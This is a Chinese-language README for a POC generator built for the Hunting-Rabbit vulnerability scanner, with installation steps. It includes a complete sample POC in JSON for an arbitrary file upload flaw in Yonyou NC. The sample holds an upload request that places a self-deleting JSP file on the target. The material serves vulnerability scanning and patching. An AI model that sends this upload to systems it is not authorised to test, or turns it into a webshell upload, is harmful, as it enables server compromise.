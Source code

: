 # Hunting-Rabbit-POC-Generator

## 简介

本项目为 Hunting-Rabbit 系列项目之一 ，是Hunting-Rabbit-VulScanner 专属POC生成器，致力于最直观简洁的POC编写。

## 截图/演示

![image-20240620110948651](img\image-20240620110948651.png)

生成的POC如下：

![image-20240620111438677](img\image-20240620111438677.png)

```json
{
    "vul_name": "用友 NC avatar 任意文件上传",
    "level": "高危",
    "description": "用友 NC acatar接口存在任意文件上传漏洞，可上传恶意脚本至服务器。",
    "product": "用友 NC",
    "version": "用友 NC",
    "cve": "无",
    "reference": "https://mp.weixin.qq.com/s/SS_KVTcomHmWbP5zEvVyMw",
    "fixing": "https://blog.csdn.net/qq_36618918/article/details/137913219\n1、升级到安全版本\n 2、如非必要，禁止公网访问该系统。\n 3、设置白名单访问。",
    "rule": {
        "path": "/uapim/upload/avatar?usercode=qbll&fileType=jsp",
        "method": "GET",
        "headers": "User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36\nConnection: close\nContent-Length: 242\nAccept-Encoding: gzip, deflate, br\nContent-Type: multipart/form-data; boundary=----v6bavojmqudas7g0al2o",
        "body": "------v6bavojmqudas7g0al2o\nContent-Disposition: form-data; name=\"uploadedfile\"; filename=\"klywwjrrux.jsp\"\n\n<%out.print(\"lmnpl\");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\n------v6bavojmqudas7g0al2o--",
        "status_code": "200",
        "keywords": "true",
        "res_time": ""
    },
    "operator": {
        "author": "浪飒",
        "email": "langsa-hy@qq.com",
        "github": "https://github.com/langsasec"
    }
}
```



## 安装和使用

1. 拉取代码：

   ```
   git clone https://github.com/langsasec/Hunting-Rabbit-POC-Generator
   ```

2. 安装依赖

   ```
   cd Hunting-Rabbit-POC-Generator && pip install -r requirements.txt
   ```

3. Python3运行

   ```
   python Hunting-Rabbit-POC-Generator.py
   ```

4. 运行后会生成config.ini配置文件，内容如下，可自行配置

   ```
   # 请勿删除此行，这是为了用户填写联系信息，你将是POC的贡献者，方便其他用户使用POC时可以互相联系，也可以不填写
   Author= 你的名字
   Email=邮箱
   GitHub=Github地址
   ```